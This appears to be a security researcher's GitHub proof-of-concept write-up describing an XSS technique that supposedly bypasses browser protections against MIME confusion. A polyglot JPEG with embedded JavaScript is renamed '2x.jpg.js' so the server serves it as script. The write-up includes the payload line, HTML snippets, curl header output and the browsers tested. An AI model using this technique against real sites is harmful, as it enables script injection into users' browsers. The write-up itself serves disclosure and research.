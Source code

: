 # Bypass CSP against MIME Confusion Attack

Major browsers have implemented Content Security Policy against MIME confusion attacks since 2018, reported by CVE-2018-5164 and CVE-2019-19916 (my report) which use polyglot image files (GIF, JPG ...) with embedded JavaScript code (as described here: https://blog.mozilla.org/security/2016/08/26/mitigating-mime-confusion-attacks-in-firefox/ and here https://github.com/V1n1v131r4/MIME-Confusion-Attack-on-Midori-Browser).

But based on my studies I found a way to bypass CSP and perform Cross-Site Script (XSS) attacks by exploiting the MIME Type of the HTTP header.


## Proof of concept Step-by-step

The image used in this PoC is as follows

![alt](https://ciber.sejalivre.org/WP/2x.jpg)


Available here: http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg


These are the image strings with the embedded JS code:

![alt](https://ciber.sejalivre.org/WP/xxd.png)


The inline JavaScript code was this:
```
*/=alert("Burp rocks.")/*
```

The PoC website is hosted at: 

* Scenario 1: http://joomla.sejalivre.org/index.html

* Scenario 2: http://joomla.sejalivre.org/index2.html


## Scenario 1

CSP's correct behavior in HTTP MIME Type is not to allow an image file with embedded JavaScript code to be read as script, as below the HTML/JS code below:

```
<html>
     <img src="2x.jpg">
	   <script src="2x.jpg"></script>
 </html>
```

Below is the browser blocking MIME confusion attack via its Content Security Policy:

![alt](https://ciber.sejalivre.org/WP/console1.png)


## Scenario 2 - The Bypass

I managed to bypass CSP by stating more than one extension in the image file with embedded JavaScript code, like this:

```
<html>
     <img src="2x.jpg.js">
	   <script src="2x.jpg.js"></script>
 </html>
```

So the image continues to be read as script by `<script>` tag and as image by `<img>` tag.

Note that the image file is the same as both scenarios, only its extension has been changed.

Below is the browser allowing MIME confusion attack by bypass in your Content Security Policy

![alt](https://ciber.sejalivre.org/WP/console2.png)






Here are HTTP Response on both scenarios:

```
$ curl -I http://joomla.sejalivre.org/2x.jpg
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2019 06:26:44 GMT
Content-Type: image/jpeg
Content-Length: 3318
Connection: keep-alive
Last-Modified: Thu, 19 Dec 2019 20:38:08 GMT
Expires: Thu, 20 Feb 2020 06:26:44 GMT
Cache-Control: max-age=5184000
Pragma: public
Accept-Ranges: bytes
```

```
$ curl -I http://joomla.sejalivre.org/2x.jpg.js
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2019 06:26:12 GMT
Content-Type: application/javascript
Content-Length: 3318
Connection: keep-alive
Vary: Accept-Encoding
Last-Modified: Fri, 20 Dec 2019 21:27:54 GMT
Expires: Tue, 21 Jan 2020 06:26:12 GMT
Cache-Control: max-age=2592000
Pragma: public
Accept-Ranges: bytes
```


## Browsers and servers tested

This PoC has been tested on the following browsers scenarios:

* Nginx + Apache 2.4.41
* Mozilla Firefox < 71.0 (Windows, Linux and Android)
* Google Chrome < 79.0.3945.88 (Windows, Linux and Android)
* Google Chromium < 81.0.4003.0 (Windows and Linux)
* Apple Safari 13.0.4 < (MacOS Catalina)
* Opera 60 - R3 < (Windows and Linux)
* Microsoft Edge < 44.18362.449.0 (Windows 10)
* Microsoft Internet Explorer < 11 (Windows 10)


## Screenshots

Below are some screenshots of PoC

Google Chrome
![alt](https://ciber.sejalivre.org/WP/chrome.png)

Google Chromium
![alt](https://ciber.sejalivre.org/WP/chromium.png)

Mozilla Firefox
![alt](https://ciber.sejalivre.org/WP/Firefox.png)

Opera
![alt](https://ciber.sejalivre.org/WP/opera.png)

Safari
![alt](https://ciber.sejalivre.org/WP/Safari.jpeg)

Edge
![alt](https://ciber.sejalivre.org/WP/edge.png)

IE
![alt](https://ciber.sejalivre.org/WP/IE.png)


